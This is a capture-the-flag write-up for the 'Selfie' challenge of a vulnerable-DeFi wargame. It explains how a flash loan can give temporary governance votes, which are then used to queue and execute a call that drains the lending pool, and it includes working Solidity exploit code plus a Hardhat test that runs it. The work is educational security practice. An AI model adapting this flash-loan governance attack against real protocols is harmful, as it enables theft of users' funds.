 # Challenge #6 - Selfie
A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

## Exploit 
In this challenge, our goal is to execute the ``drainAllFunds()`` from the SelfiePool. In order to do 
that, we'll have to execute that from the governance contract. Looking at the Governance contract, we 
can execute an action as long as we have enough votes which we can get through the flashloan and that way 
we can drain all the funds.  

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface ISelfie {
	function flashLoan(uint256 borrowAmount) external;
}

interface IGovernance {
	function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256);
	function executeAction(uint256 actionId) external payable;
}

interface IToken {
	function getBalanceAtLastSnapshot(address account) external view returns (uint256);
	function balanceOf(address account) external view returns (uint256);
	function snapshot() external returns (uint256);
	function transfer(address to, uint256 amount) external returns (bool);
}

contract Exploit_Selfie {
	ISelfie pool;
	IGovernance governance;
	IToken token;
	address attacker;

	function exec(address _pool, address _governance, address _token) external {
		pool = ISelfie(_pool);
		governance = IGovernance(_governance);
		token = IToken(_token);
		attacker = msg.sender;
		pool.flashLoan(1500000 ether);
	}

	function receiveTokens(address _token , uint amount) external payable {
		bytes memory data = abi.encodeWithSignature('drainAllFunds(address)', attacker);
		token.snapshot();
		governance.queueAction(
			msg.sender,
			data,
			0 wei
		);
		token.transfer(msg.sender, amount);
	}
}
```
Execution: 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		await this.exploit.exec(this.pool.address, this.governance.address, this.token.address);
		await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days
		await this.governance.executeAction(1, {value: ethers.utils.parseEther('1')});
    });
```

